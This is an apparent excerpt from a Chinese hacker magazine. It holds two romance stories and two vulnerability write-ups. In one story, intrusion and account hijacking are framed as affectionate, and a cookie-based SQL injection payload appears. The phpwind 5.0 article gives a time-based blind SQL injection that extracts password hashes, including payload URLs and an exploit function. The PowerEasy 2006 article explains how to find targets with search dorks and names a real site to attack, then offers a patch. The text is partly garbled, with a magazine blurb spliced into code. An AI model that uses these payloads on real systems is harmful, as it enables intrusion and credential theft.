煮海很有耐性的对姒灵讲解了起来：“先开显示屏，然后开主机，等网线连接好之后你就可以登录 QQ 了。哦，你有 QQ 么？”“有的，只是不经常上。”姒灵不好意思起来：“嗯，那我加你为好友吧。”一个下午很容易就过去了。煮海还帮姒灵申请了个邮箱，告诉她如果想他的时候就给他写信，并且约好了晚上再见面。

开学前段时间姒灵的心都是雀跃的，每天都会和煮海相见，而每次见面都会很深一层地了解到煮海不为人知的另一面。煮海懂得太多她所不知道的东西，比如他竟然可以知道她的 QQ 密码，还冒充她在 QQ 上和她的朋友聊天。煮海的生活却是复杂的，他的朋友基本上是在社会上混的。这些都是表层的东西，可以看得见也可以了解到。而煮海有时候的忧郁却是她所不能了解的，而且无力进入。只能看着煮海一根根地烟熏黄他的食指。

又到开学，原本应该紧张学习的姒灵却能用轻松的心态看待这次高考。她和煮海的关系已经明明朗朗，同学们在紧张之余会开点善意的玩笑调节下心情。在这种心态下姒灵以完全轻松的姿态度过了别人口中所谓的黑色七月。

接下来是完全肆意挥洒青春的日子。姒灵过几天便会和煮海那些朋友一起玩。但煮海喝酒越来越凶，食指也越来越黄，喝高后的煮海就会使劲看着姒灵，眼睛里布满血丝，每到这个时候姒灵总是预感有什么事发生。终于事情还是像姒灵预感的那样来临了，那天姒灵和煮海他们那一大群人吃宵夜，吃到途中煮海突然和一个男人吵了起来：“我不同意，她根本就不可能这样做，我也不可能利用她对我的感情去骗她，要找的话外面大把的。”那人似乎对煮海这样说话很不满意，操起一个酒瓶就对着煮海的头上砸了下去，煮海跳起来用凳子去反击，边上其他的人在扯，最后满桌子的狼藉和煮海头上止不住的血才让姒灵清醒，也不知道哪来那么大的力气，她半背半拖着煮海到了自己房间，偷偷跑到卫生间打盆热水，然后解开煮海的上衣，竟然发现煮海身上全是刀痕。煮海勉强地对姒灵笑：“没事，这是以前作战时候的辉煌见证呢。”姒灵的泪这才后知后觉倾涌而下，煮海帮姒灵擦着泪说：“我今天不能回家了，在你这休息一晚上好么，明天清早就走。”姒灵点头，让煮海睡在床上，自己坐在床边上看着。煮海说：“你就不想问我什么？”“想问，但我不知道该怎么问。”“嗯，你也坐床上休息吧，这样没那么累。”姒灵迟疑地脱掉鞋子靠到床头。她实在太累，今天所发生的一切已经超过了她的精神负荷，没熬到 10 分钟就枕着煮海的声音进入了梦境。

醒来已不见了煮海的影子，床头上有张纸条，煮海的笔迹：你真的是一个太单纯的女孩子。我们应该是成年人了吧。或许是你对我的信任才让我对我丧失了所有的戒心，所以，我始终不忍心对你做任何事情。昨晚的打架是因你而起。你也知道我们生活的地方有着太多的罪恶隐藏，只是你生活在了干净的角落。开始在学校帮你只是无意，但你被我的老大看中，说要我把你搞到手然后带你出去赚钱。在你之前我曾经帮他们找过两个女孩子，谁知跟你在一起之后我却一直下不了决心，你太弱小，你什么都不懂，初次吻你的时候自己都快迷失。也许正是你的不懂造就了你今天的幸运，不然你现在可能已经踏上远去的火车。你放在枕头下的日记我看见了，抱歉让你对我用情如此之深，但我们始终是没有结果的。我们的路不同，继续在一起是对彼此的伤害，所以日记我拿走了，帮你申请的邮箱我也删除了，你在里面写的日记我也全部删除。不要问我怎么知道密码的，希望你从此之后忘了我。你的 QQ 我也换了密码，和我在一起的那段生活你就当是个梦吧。梦醒了，你该走自己的路，梦醒了，不可再犯以前同样的错误。记得下次找男朋友之前得先弄清楚那人的朋友是做什么的。以后不要再用姒灵的名字写日记了。还有，别把爱搞得像服务业，做牛做马只会累死自己。煮海。

姒灵赤脚下床，慢慢蹲了下去，茫然无措。门外有邮递员的声音：姒灵有信了。打开房门，是录取通知书。七月半的天，晨雾散开，阳光正好。

> **编辑点评：**
> 这是作者饱含自己真实经历的一篇小说，字里行间充满伤怀。文中的男主人公叫作“杰”。不知道作者是不是特地选过，这个字在古代汉语中有“庇荫”的意思，仿佛早已说明了这是一个会给予女主人公安安全感的男人。可是文章最后，煮海对姒灵的保护已经对他自己也产生了巨大负担，最终使用了自我消失的方式。虽然有点残忍，让姒灵茫然无措，但她心里还是明白煮海的一片苦心。最后，姒灵终于可以去另一个城市，开始自己的大学生活，而煮海和她的故事，将如塔印，永远烙在了她的心底。

# 谁入侵了谁的心

本文根据樱花浪子故事编写

海边一粒沙

在这个五颜六色的世界里，很多人都扮演着一个并非自己本意的角色，当褪去虚伪的外表之后，表露的只是伤痕累累。拒绝爱的理由只是防备着再次被爱伤害。但真爱永远只会给人幸福，无法对人造成丁点的伤害！

深夜一点，我刚要下线 QQ 消息就开始闪，一个 MM 要加我，验证语言是：网站上的同道中人。对于 MM，我向来就是来者不拒，尤其是漂亮 MM。她一进我的好友名单就不停地问技术问题。我本来想放长线钓大鱼，可是这个女孩子却很难缠，就差顺着网线爬过来了，完全忽视你想耍睡觉的强烈愿望。

这一夜我几乎就要吐血了，这个 MM 不是问你防火墙怎么装就是问你杀毒软件序列号在哪里，我问她，你是菜鸟吧。人家立马急了，问你：“你见过什么都懂的菜鸟吗？”遇到这种事男人一般有两种反应。第一：马上哈哈大笑，觉得这个女人很可爱！第二：怀疑这个女人是不是有毛病，并且觉得这女人绝对是个难缠的主！我是后者，但是根据“宁可得罪十个小人，也不得罪一个女人”的至理名言，我苦苦忍耐了一晚上。当然主要原因是我在教她东西的过程中入侵了她的电脑后发现她是个超级美女。

在经过一夜的非人折磨之后，我发现一个道理，女人就是祸水。接下来的日子里，除了写文章，其余的时间就全部让那个叫“坏苹果”的女孩子占据了。她给了我最简单的快乐，其余的感觉就是越漂亮的女人越麻烦。

生活如水一般的平静。网络，工作，几乎占据了我所有的时间。当寂寞孤单吞噬心灵的时候，人们便开始极力的挣扎，大部分在网络中游离的人都会害怕寂寞。技术小组里面有几个和我是一个城市的，所以每个月我们都会在一起聚聚。最大的理由是我们都单身。而那一次我也邀请了坏苹果来参加。

当坏苹果走进餐厅的时候，其他兄弟们的眼球已经在餐厅里乱飞了。我的眼球没有掉出来，因为我知道这漂亮女人面前表现的越夸张也就越被动。

坏苹果是一个很开朗的女孩子，很快就和他们打成一片，但我并没有因为她的出现而保留绅士风度，还是和以往一样烂醉如泥。我看着脸颊微红的坏苹果，只对兄弟们说了一句好好照顾她。就踉踉跄跄地遇到的女网友脚步蹒跚的离开了。我可以清晰的感觉到坏苹果幽怨的眼神，可是在 N 年前我已经不再相信女人的眼神了。

我是一个坏人，不检点的男人。当阳光刺痛我的眼睛时，我从女网友的怀抱中醒来镇定的穿上衣服。对她说：“谢谢你昨天晚上照顾我！”然后安然的走出她的家门，听着房间里女网友大声的对我说：“我还不知道你叫什么名字呢？”当我从每个女人那里离开的时候，她们几乎都重复着这样的话。这些话对我来说熟悉的不能再熟悉了，因为在四年前，这些话已经断断续续地在我的耳边出现了 N 次。

我用最快的速度赶到公司，我虽然是一个坏的没边的男人，但是对工作还是很热忱的。直到太阳西下，我还没有离开办公室的意思。但是手机却不依不饶的震动着。原来是技术小组 dark 的电话。

“喂，dark，怎么了？喝酒去吗？”我想这小子昨天因为有 MM 在场没有喝够吧！Dark 愤怒的声音特别恐怖：“浪平，你快点给我滚回家。”我忽然感觉事情太严重，难道我家着火了，或者是我家被盗？第一怀疑放火偷东西的家伙就是 dark，因为这小子没事跑到我家干什么？我不解的问：“出什么事了。”

“出什么事了？限你二十分钟给我出现，要不然到明天早上你就变成死尸了。”说完电话里面是嘟嘟挂机的声音。一看，这家伙给我打了五十六个未接电话，发了二十四条短信，因为手机震动的原因我都没有及时收到。看来事情非常严重了，没有用十五分钟，我就站在家门前了。

但是等我回来后很惊奇，因为家里没着火，也没被盗，只是 dark 怒气冲天的站在我的面前，坏苹果眼睛哭得跟樱桃一样“娇艳动人”。我连忙问：“怎么了？你们怎么了？”

Dark 走了过来，就差点抡拳头了，他对我说：“你去死吧。坏苹果从昨天晚上等到现在，我也跟着站了一天一夜。你自己看着办吧！我走了。”说完很有水准的瞪了我一眼，那双眼睛黑色的部分几乎没有了。然后骂骂咧咧的消失在我的视线之内了。

我迷茫的站在坏苹果的面前。“你怎么了，到底发生了什么事？”我不问还好，一问这个丫头对我就是一阵拳打脚踢，眼泪就像是决堤的洪水一样泛滥。好在我的身体还算是健壮。女人哭的时候，最好让她哭个痛快，直到她没力气为止，否则她会跟你没完没了。所以我像一个伟大的丰碑一样，站在门前任由她咬她踹。半个小时后她终于没有了任何的力气，坐在门前低声的哭着。

我没有去哄她，因为我确实不知道她为什么会哭。良久，她可能觉得再哭下去也没什么意思了，才抬起头狠狠的瞪着我问：“昨天晚上你去哪里了？”“那个网友家里。”我真不知道她脑袋里想着什么，居然问我这么白痴的问题。

她的眼睛更红了，眼泪在眼睛中滑落的过程非常清晰，我突然心里狠狠的痛了。这是初恋结束以来我第一次心痛，虽然见过无数女人的眼泪。

她底气不足的问：“那你和她都干什么了？”我拿出钥匙边打开门边说：“上床！”

我走进房间里她没有跟进来，而是掩面站在门外。虽然走廊里的灯光很暗，但是眼泪从她指缝流出的过程很明了。我似乎明白了她为什么哭，我把她拉进了比猪窝还要烂上千百倍的家，扫掉沙发上乱七八糟的东西让她坐下。也许这样她可以舒服一些，不知道为什么我会心疼这个女孩子。

我拿过纸巾递给她说：“你没必要为我哭，我是一个坏男人，我的世界里只有那些代码和软件。你也看到了，我是一个多么不检点的男人。”听完我的话她的哭声更大，我只是给她倒了杯水，然后温柔的说：“你早点回去吧。”

她抬起头，非常认真的对我说：“我喜欢你。以后你能不能和我在一起。不再找其他女人了？”她的话让我措手不及，这回轮到我沉默了。她很可爱，很招人喜欢，但是我不知道我到底爱不爱她。而且我从来都不相信什么爱情，一些伤在我的心里刻骨铭心，即使愈合了伤口，疤痕也还在。大脑里一片混乱，我不知道自己在想些什么，需要怎么回答。拒绝或者接受？

她突然站了起来，抱着我，在我的怀里失声痛哭，眼泪穿越了衣衫的阻隔，渗进了皮肤里面，突然感觉每一根神经都为她疼痛着。那一夜她没有离开，哭哭笑笑了一整夜，而我头脑始终都没有保持清醒。

清晨我醒来的时候她不在我身边，房间里变得很干净。她穿着我宽大的衬衫在房间里走来走去，准备着早饭，脸上写满了幸福的笑容。我开始后悔昨天晚上的一切，这是我第一次对一个女人有愧疚的感觉。我坐在餐桌前，喝着她准备的牛奶，冰冷地说：“我的钱包里有钱，你想拿多少就拿多少。以后我们还是少联系吧！”盘子落地后清脆的声音。我一直低着头看着早餐，一口口地咬着面包，却感觉不到任何的滋味。我听见她换衣服的声音，拉开门离开的声音。看见我的眼泪滴落在牛奶里面。

从此坏苹果在我的世界里消失。我每天的生活都泡在网络上。我终于明白我是想念坏苹果的，至于这是不是爱，我不清楚。只是每天不断地温习着和她的每个细节。我第一次觉得孤独是很痛苦的，尤其是因为想念一个人。我也开始慢慢地恨上了自己。每天夜晚躺在床上无眠的时候，她躺在我怀里哭泣时的柔弱，她离开时脚步的忧伤，都在我大脑里不断地盘旋，挥散不去。心开始因为想念她而疼痛。

我把所有的思念藏在心里最深处，在朋友面前我还是原来的我。一个月一次的聚会，每天深夜入睡。为了停止想念，我开始疯狂地查找漏洞研究代码，把大脑安排得满满的，这样她就不会入侵我的大脑，我就不会一想起她就心痛。

生活就是这样如流水一般地继续着。一天我打开自己的网站，发现页面一片漆黑，上面只留下一段话：“我恨你，因为我还爱着你。”我气得直骂娘，不知道又是哪个安全界的兄弟开的一个玩笑。真是够郁闷的，回到家里准备查一下被入侵的问题，一打开电脑我没被气死，只见上面也留下一段话说：“我恨你，因为我还爱着你。”事情很蹊跷，要真是朋友开的玩笑不至于这么没完没了吧！重新恢复了系统之后，经过对日志的分析，终于找到了这个入侵者的 IP。为什么这个 IP 是这么熟悉呢？明白了，这不是坏苹果的 IP 吗？突然之间除了惊讶更多的就是欢喜，有了她的讯息感觉莫名的心跳加快，居然有种很想哭的感觉。拿出了扫描工具，没想到她的机器居然存在漏洞，我很快进入了坏苹果的电脑，把一张制作好了的图片设置成了她的桌面。上面只有一句话：“如果，有一天那个让你受伤的人想和你一起生活，你愿意吗？”时间一点一滴地流逝，她的桌面没有动，突然感觉死一般的沉默。我想她不会原谅我的。我闭上眼睛真想狠狠地抽自己。

手机的铃声很大，自从上次以后我再也没用震动了，换上了一首好听的音乐，杜德伟的《情人》。我接了电话有气无力地说：“喂，哪位！”“我喜欢你，以后你能不能和我在一起。不再找其他女人了？”里面是那个熟悉的再熟悉的声音在说话。我突然感觉眼睛好疼，鼻子好酸，我哽咽地说：“好，我答应你，只爱你一个。”“嗯！”电话里面是坏苹果的哭声。

“苹果，你是怎么进入我网站的？”我问道。“你的网站虽然用了注入程序，可是我是用 Request.cookie 注入猜出你密码的。防止注入程序只限制了 Request.form 和 Request.QueryString 这两种方式。但是 javascript:alert(document.cookie="id="+escape("id and 1=1")); 和 javascript:alert(document.cookie="id="+escape("id and 1=2")); 返回了不同的页面就可以注入呀，你平时看的《黑客手册》已经公布了。”突然我的脸上扬起了幸福的笑容，窗外的阳光很暖，温暖着每个人心里最深处。

> 编辑点评：又看到海边一粒沙的文章了，不知道这算不算她本人的第一个纪实文学。以前看樱花浪子的技术文章，还真没想到他是个生活如此丰富的人，现在终于由别人写出来了，让我们了解到了他不为人知的另一面。虽然还是海边一粒沙的语言风格，还是那样流畅的文字，但却分明改变了什么！是什么呢？请读者一路跟随海边一粒沙去探索这个改变吧！

## Phpwind5.0 最新 Sql 注射 0day 详解

0x27.com

## 从本文你可以学到：

- 1、PHPWIND 最新漏洞解析
- 2、PHP 的一些技巧

Phpwind 是国内用得比较多的一款论坛程序，也曾经出过不少漏洞，杂志上也曾报道过不少，但是前段时间在其官方网站上看到其管理人员居然大言不惭地说他们的程序自始至终是安全的，并且不存在或大或小的安全漏洞，所有的漏洞都是谣言。这么一句话就把俺们这些搞脚本的贬得一文不值了，详情可见 http://www.phpwind.net/read-htm-tid-217205.html，气愤之余就下了当时的最新版，也就是 phpwind 5.0.1，看看能不能找到点什么有意思的。没想到还真的找到了一个，现在外面 phpwind 5.0 的以上高级版应该都存在这个问题，我用的代码是 phpwind 5.0。

废话就不多说了，大家直接打开漏洞文件 message.php，在第 26 行左右的代码如下：

```php
......
if($action=='receivebox'){ //如果 action 是 receivebox
```

本期新闻练练看可谓可歌可泣，一次曝出这么多的 0day，有超级重量级的 phpwind5.x 版本的，有动易 powereasy2006 在 win2003 上的，还有各种各样的系统的漏洞，放假归来，作者们都显得异常兴奋，连夜读代码，找漏洞，成果喜人呀！鉴于手册版面实在有限，精挑细选奉献这么一档文章，和读者朋友同庆杂志两岁生日。

本栏努力打造一个分享经验、分享成果、展示成果的栏目，不管是新手发现的属于自己的第一个漏洞，还是老鸟们暴出的重量级 0day，我们都是很欢迎的，希望大家喜欢这个栏目，提醒您一下，下期我们照样精彩，赶快参与进来吧！

```php
getusermsg($winduid,$winddb['newpm']);
}elseif(in_array($action,array('pubmsg','readpub','del'))){
// 否则如果 action 是 pubmsg 或 readpub 或 del
$pubmsg = $db->get_one("SELECT readmsg,delmsg FROM pw_memberinfo WHERE uid='$winduid'"); //从 pw_memberinfo 表里去出指定 winduid 的 readmsg,delmsg
$pubmsg && extract($pubmsg); //如果查询结果不为空就释放 readmsg,delmsg 的内容
}
$msg_gid = $winddb['groupid'];
```

注意其中的这段代码：

```php
......
$pubmsg = $db->get_one("SELECT readmsg,delmsg FROM pw_memberinfo WHERE uid='$winduid'");
$pubmsg && extract($pubmsg);
......
```

大家可能看不太明白这段代码，这段代码的意思是从 pw_memberinfo 中取出 readmsg、delmsg，如果结果不为空就将得到的结果释放。因为 SQL 查询结果返回的是一个数组，所以如果正常释放的话，就会产生 readmsg 和 delmsg 两个变量，并且内容被限制为数据库中的内容，起到了初始化的作用。但是大家想想，如果这个查询的结果为否呢，不晓得会出现什么现象哦！对了，当查询结果为否的时候看代码：

```php
$pubmsg && extract($pubmsg);
```

是怎么执行的！中间是 && 连接的，只要其中任何一个为否（在 PHP 中空的数组和空的字符串以及 0 都可以代表否），就会停止表达式的执行。嘿嘿，也就是说 extract 将会被废弃掉，这个时候 readmsg、delmsg 就是没有初始化的变量啦！而且大家放心，这个表内的这几个字段的内容在你不做什么操作时是为空的。嘿嘿！

有的同学要问了，有这两个变量能做什么啊？那就按照以前一直秉循的思路，看这个变量到哪里去了吧！搜索这两个变量，看看能做些什么吧！在同一文件 436 行左右的 getusermsg 函数里有如下代码：

```php
452 行
...
    global $msg_gid,$readmsg,$delmsg; //引入变量
    $checkmsg='0';
    $readmsg && $checkmsg .= ','.$readmsg;
    //如果 readmsg 不为空就将 $readmsg 的内容添加到 $checkmsg 里
    $delmsg && $checkmsg .= ','.$delmsg;
    $rt=$db->get_one("SELECT mid FROM pw_msg WHERE type='public' AND togroups LIKE '%,$msg_gid,%' AND mid NOT IN ($checkmsg)"); //执行查询
    if(!$rt){
        if($ifnew==3 || $ifnew==2){
            $ifnew-=2;
            $db->update("UPDATE pw_members SET newpm='$ifnew' WHERE uid='$winduid'");
        }
    }else{
```

463 行
看看可爱的 $checkmsg 怎么来的吧！呵呵！注意

```php
$readmsg && $checkmsg .= ','.$readmsg;
```

呵呵，首先 Global 处理 $readmsg、$delmsg 变量，如果 $readmsg 不为空那么 $readmsg 就被赋给了 $checkmsg。好，那么可爱的 $checkmsg 又到哪里去了呢？在一般的 PHP 代码里，控制一个变量也不一定能做什么，因为大部分的 PHP 代码在初始化的过程中就会把所有的变量 addslash，而且因为考虑到 Register Global 为 Off 的情况，一般都会额外地处理。如 phpwind 就不用担心 Register Global 为 off 的情况，在 require/defend.php 中的代码如下：

```php
...
foreach($_POST as $key=>$value){
    !ereg("^\_", $key) && !isset($$key) && $$key=$_POST[$key];
}
//按变量名释放 POST 里的变量
...
foreach($_GET as $key=>$value){
    !ereg("^\_", $key) && !isset($$key) && $$key=$_GET[$key];
}
//按变量名释放 GET 里的变量
```

```php
}
```

还有另外给 addslash 处理的代码在 global.php 中：

```php
...
unset($_ENV, $_HTTP_ENV_VARS, $_REQUEST, $HTTP_POST_VARS, $HTTP_GET_VARS, $HTTP_POST_FILES, $HTTP_COOKIE_VARS); //处理 GPC 的变量，全部 addslash，避免 GPC=off 时出问题
if(!get_magic_quotes_gpc()){
    Add_S($_POST);
    Add_S($_GET);
    Add_S($_COOKIE);
}
...
```

说了好多废话，就是告诉大家不用担心传不过去 $readmsg 变量！另外，因为 addslash 的限制，也就是这个漏洞有意思的地方！SQL 查询的本质就是只要你能控制 SQL 语句，那么漏洞就存在。呵呵，这里的变量是放在 IN() 条件里的，不受 “'” 限制了！那么要怎么进入函数的这段代码呢？查看代码只要 getusermsg 的第三个参数不为空就可以了，那么进行上下文搜索这样的函数调用吧！发现只要 action=pubmsg 时就会调用上面的函数，大家可以测试下，提交 http://www.xxx.net/message.php?action=pubmsg&readmsg=01' 就可以看到 SQL 错误提示，证明漏洞的确是存在，如图 1。



图 1 SQL 错误提示

漏洞存在了，那么如何利用呢？大家看下就知道这里尽管是 select 查询，但查询的结果并没有直观地返回，因为后面根本没有显示的代码，无法直观地看到查询结果。这个时候就要记得 MySQL 里的一个函数了：

```sql
BENCHMARK(count, expr)
```

BENCHMARK() 函数重复 count 次执行表达式 expr。它可以被用于计算 MySQL 处理表达式的速度，结果值通常为 0。另一种用处来自 MySQL 客户端内部，能够报告查询执行的次数。

呵呵，按照前辈们讨论的方法就是精心构造 SQL 语句根据返回时间来判断查询的结果！而且一般的 PHP 论坛都会把 SQL 执行时间等显示在页面里的，那么就好办了！提交 readmsg 为：message.php?action=pubmsg&readmsg=0) union select BENCHMARK(1000000, md5(12345)) from pw_members where uid=1 and mid(password, 1, 1)>0x00/*，如果查询为真，就会导致执行 BENCHMARK(1000000, md5(12345)) 函数，执行的结果就会比较长，否则就相反。上面的那段提交可以判断 uid 为 1 的用户的密码 hash 第一位是不是大于 0 了，其他的查询语句就要自己去构造 SQL 查询了！不过这样苦力猜测会把人郁闷死！俺就写了个测试的程序，基本的猜测函数如下：

```php
function sqlject($sql){
    global $uid;
    $data='action=pubmsg&readmsg=0)'; //闭合前面的 SQL 语句
    $data=$data." union select BENCHMARK(1000000, md5(12345)) from pw_members where uid=$uid and $sql"; /* */; //
```

```php
构造自己提交的 sql 语句，后面加上 /* 注释掉后面的语句
$echo=send($data,'message.php'); //我自己写的提交数据包的函数
preg_match("/Total (.*)\/i!",$echo,$matches); //根据查询时间判断查询结果
if($matches[1]>2): return 1;
else return 0;
}
```

这里就有对上面的想法的一些应用，然后构造出自己的循环就可以猜测 md5 hash 了！运行效果如图 2。

其实在算法方面也让人很头痛，大家有兴趣的话可以自己查看源代码。exp 我也已经附带了，记得自己更改里面的 Cookie 和 User-Agent 等参数再做测试哦！事实上 phpwind 的好几个版本都是有这个漏洞的，我也不点破了，大家自己去找找看哦！呵呵，顺便再次鄙视下 phpwind 所谓的无任何漏洞的说辞！有什么问题欢迎到非安全讨论，我的 ID 是“一根棍”，另外我的 QQ 基本没上线了，看到很多人用我名字骗人，大家自己小心哦，呵呵。

> 编辑点评：这篇文章来得有点突然，PHPWIND 的漏洞每次都是重量级的，这次自然也不例外，作者看中了一个 && 运算的不合理，进而构造利用该漏洞，功底可见一斑；其构造的 EXP 中有个对 BENCHMARK 函数的巧妙使用，也给广大玩 SQL 猜解的朋友带来一个新的攻击点，实在难得。另外，针对文中提到的某些人的不恰当说辞，我们只能无语~

# WIN2003 的缺陷 带来动易新漏洞

蓝梦泽

## 从本文你可以学到：

- 1、动易 Oday 的产生原因
- 2、该漏洞的利用过程和技巧

过年那几天实在太忙了，不是去这里拜年就是去那里拜年，好不容易有点点时间。刚上 QQ，学校的老师说动易出漏洞了，让我去看看，顺便把学校网站的补丁打上，刚打开动易官方网站，就看见了漏洞的公告。

## 1. 漏洞概要

动易官方对此漏洞编号为：PEAS20070215；
危害程度：极严重，黑客可以通过此漏洞取得 WebShell 权限。
影响版本：动易 2006 所有版本（包括免费版、商业 SQL 版及 Access 版），正式版、SP1、SP2、SP3、SP4、SP5 都受此影响。
漏洞描述：因为 Win2003 存在着一个文件解析路径的漏洞，当文件夹名为类似 hack.asp 的时候（即文件夹名看起来像一个 ASP 文件的文件名），此时此文件夹下的文本类型的文件都可以在 IIS 中被当作 ASP 程序来执行。这样黑客即可上传扩展名为 jpg 或 gif 之类的看起来像是图片文件的木马文件，通过访问这个文件即可运行木马。因为微软尚未发布这个漏洞的补丁，所以几乎所有网站都会存在这个漏洞。

## 2. 漏洞分析

漏洞触发于 Reg 目录下的 User_RegCheck.asp 文件，User_RegCheck.asp 文件中的 175～189 行代码如下：

```vbscript
Function UserNamefilter(strChar) '定义一个 UserNamefilter 函数
If strChar = "" Or IsNull(strChar) Then '如果变量 strchar 为空（没有值）或不存在 strchar 这个变量，则执行下面的语句
UserNamefilter = "" '令 UserNamefilter 为空
Exit Function '退出声明（定义函数）
End If
Dim strBadChar, arrBadChar, tempChar, i '定义变量
strBadChar = "',%,^,&,?,(),<,>,[,],{,},/,\,;,:," & Chr(34) & "," & Chr(0) & ",*,|,""" //过滤用户名中的符号
arrBadChar = Split(strBadChar, ",") '以逗号作为分隔符，把 strbadchar 变量的每个值赋给 arrBadChar，arrBadChar 就是一个数组。
tempChar = strChar
For i = 0 To UBound(arrBadChar) 'UBound(arrBadChar) 获取数组下标个数，然后执行循环。
tempChar = Replace(tempChar, arrBadChar(i), "") '用空替换 tempChar 里面的 arrBadChar(i) 字符。就是相当于把 tempChar 里面含有 arrBadChar(i) 的字符去掉。
Next
```

```vbscript
UserNamefilter = tempChar '把 tempChar 赋给 UserNamefilter
End Function '定义函数结束
```

这段代码的作用是过滤用户名（增强过滤且用户名现用于建立个人文集目录）。从过滤的用户名「...」可以看到未过滤 “.” 或者 “asp”。由于 IIS6.0 在设计上的缺陷，当在 IIS6.0 目录包含有 .ASP 字样时，其目录下的任意文件都会被当作 ASP 文件来解析，用户名是用于建立个人文集目录的，那么漏洞也就就在这里触发。从上述条件来看，想触发漏洞就必须满足限制条件：1. 保证入侵目标操作系统是 2003 服务器版。如果你遇到的是一台古老的 WIN2000，那就不要在上面浪费时间了；2. 保证对方劫持系统可注册可上传！

## 3. 漏洞利用

首先搜索目标，可以使用挖掘鸡构造一些语句进行挖掘，构造的语句为 “/Reg/User_Reg.asp”，关键词是 “文学” 时搜索，一会儿就挖掘了很多，如图 1。

随便选一个站点进行测试，就拿 www.szzww.cn 做演示吧！先去注册一个帐号，注册的帐号一定要注册成 xxx.asp 形式（这样才可触发漏洞），如图 2。

## 4. 漏洞的修补

对于这个漏洞，官方给出的临时解决方法是删除 Space 文件夹（临时），删除 User/User_Space.asp 文件。如果你觉得这样不是很好的话，从漏洞触发的地方来看，应该在注册用户的地方进行修补更为合理！注册用户的文件是 Reg 目录下的 User_RegPost.asp 文件，User_RegPost.asp 文件中的 475 行~490 行代码如下：

```vbscript
Function CheckUserBadChar(strChar)' 定义一个 CheckUserBadChar 函数
    Dim strBadChar, arrBadChar, i ' 定义变量
    strBadChar = "'|%,^,&,?,(,),<,>,[,],{,},/,\,;,:," & Chr(34) & "*,#, """ ' 过滤用户名
    arrBadChar = Split(strBadChar, ",") ' 以逗号作为分隔符，把 strBadChar 变量的每个值赋给 arrBadChar，arrBadChar 就是一个数组。
    If strChar = "" Then ' 如果为空，那么 CheckUserBadChar 的值就为假
```

```vbscript
        CheckUserBadChar = False
    Else
        For i = 0 To UBound(arrBadChar) ' 获取数组下标个数，然后执行循环。
            If InStr(strChar, arrBadChar(i)) > 0 Then ' 如果 strChar 中包括 arrBadChar(i) 这个字符就执行语句。
                CheckUserBadChar = False
                Exit Function ' 退出定义函数
            End If
        Next
    End If
    CheckUserBadChar = True
End Function ' 定义函数结束。
```

从上面的过滤代码中可以看到文件没有过滤到“.”、“asp”，而导致了恶意用户的注册成功，修补漏洞的方法就是在过滤的地方加入对“.asp”、“.”的过滤，用于修补的代码如下所示：

```vbscript
Function CheckUserBadChar(strChar)
    Dim strBadChar, arrBadChar, i
    strBadChar = ".,.ASP,',%,^,&,?,(,),<,>,[,],{,},/,\,;,:," & Chr(34) & "*,#, """
    arrBadChar = Split(strBadChar, ",")
    If strChar = "" Then
        CheckUserBadChar = False
    Else
        For i = 0 To UBound(arrBadChar)
            If InStr(strChar, arrBadChar(i)) > 0 Then
                CheckUserBadChar = False
                Exit Function
            End If
        Next
    End If
    CheckUserBadChar = True
End Function
```

这里的代码和前面的一样，只是在过滤的地方加入了对“.”、“.ASP”的过滤而已，如果觉得修改代码够麻烦，那么还有一个简单的办法，就是在后台设置上传文件的大小为 0KB。这样一来，恶意用户就无法上传文件到其构造的恶意目录下面了！也阻止了漏洞的触发！

至此，动易漏洞就分析完毕了，尽管有限制条件，但是现在网站基本采用 Win2003 服务器版的操作系统，所以这个漏洞影响的范围还是比较广的。希望大家在测试的时候不要搞破坏，使用动易系统的朋友，记得快去打上补丁喔！

> > （作者做的动画演示已经收录在光盘中）

**编辑点评：** 动易是不是很无辜呀，“呵呵~ 因为 Win2003 的一个缺陷，导致自己被攻破，真是冤枉哈；不过也给大家提个醒，当初因为 PHP 自身的漏洞也致使好多的 php 系统遭受灭顶之灾，对于该类问题，只能经常关注，及时修补了。

